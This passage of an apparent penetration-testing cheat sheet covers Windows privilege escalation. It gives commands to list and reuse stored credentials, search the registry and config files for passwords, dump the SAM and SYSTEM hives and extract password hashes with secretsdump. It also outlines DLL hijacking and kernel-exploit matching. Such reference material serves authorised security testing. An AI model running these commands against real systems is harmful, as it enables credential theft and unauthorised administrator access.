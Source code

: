 ## 🔑 6. Stored Credentials
Check stored credentials:
```
cmdkey /list
```
Reuse with:
```
runas /savecred /user:Administrator cmd
```

Registry search:
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Config files:
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\System32\Sysprep\Sysprep.xml`
- `C:\inetpub\wwwroot\web.config`

---

## 🗃 7. SAM & SYSTEM Files
If accessible:
```
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
```
Dump with:
```
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```
Extract hashes:
```
secretsdump.py -sam sam -system system LOCAL
```

---

## 📦 8. DLL Hijacking
If service loads missing DLL from writable directory → place malicious DLL.

Check with ProcMon (filter for "NAME NOT FOUND").

---

## 🖥 9. Kernel Exploits
Check OS version:
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
Match build number against public exploits (Exploit-DB, MSF modules).
